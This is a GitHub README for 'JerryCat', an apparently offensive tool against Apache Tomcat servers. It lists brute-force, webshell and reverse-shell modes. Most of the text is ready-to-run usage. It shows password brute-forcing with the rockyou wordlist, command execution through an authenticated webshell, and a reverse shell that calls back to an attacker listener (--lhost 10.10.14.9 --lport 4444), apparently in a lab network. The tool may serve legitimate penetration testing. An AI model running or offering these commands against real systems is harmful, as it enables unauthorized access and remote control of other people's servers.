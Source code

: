 <h1 align="center">JerryCat 🐭<h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.0-orange.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
  </a>
  </br>
  <a href="https://twitter.com/Talace_" target="_blank">
    <img alt="Twitter: Talace_" src="https://img.shields.io/twitter/follow/Talace_.svg?style=social" />
  </a>
  <a href="https://twitter.com/LeandreOnizuka" target="_blank">
    <img alt="Twitter: LeandreOnizuka" src="https://img.shields.io/twitter/follow/LeandreOnizuka.svg?style=social" />
  </a>
</p>

## Features/Mode ⚒️

 - [x] Brute Force (brute)
 - [x] Webshell (exec)
 - [x] Reverse shell (reverse)

## Setup ✨

Clone & install dependencies
```sh
git clone https://github.com/TheF0rceAwak5ns/JerryCat.git && cd JerryCat && pip install -r requirements.txt
```

## Usage - Unauthenticated attack 

### Brute Force
**without** a user list
```sh
python3 jerrycat.py brute http://10.10.10.95:8080/ -P /user/share/wordlists/rockyou.txt
```
**with** a user list
```sh
python3 jerrycat.py brute http://10.10.10.95:8080/ -U /path/to/user/list -P /user/share/wordlists/rockyou.txt
```

## Usage - Authenticated attack

### Webshell
```sh
python3 jerrycat.py exec http://10.10.10.95:8080/ -u tomcat -p s3cret
```

### Reverse shell
```sh
python3 jerrycat.py reverse http://10.10.10.95:8080/ -u tomcat -p s3cret --lhost 10.10.14.9 --lport 4444
```


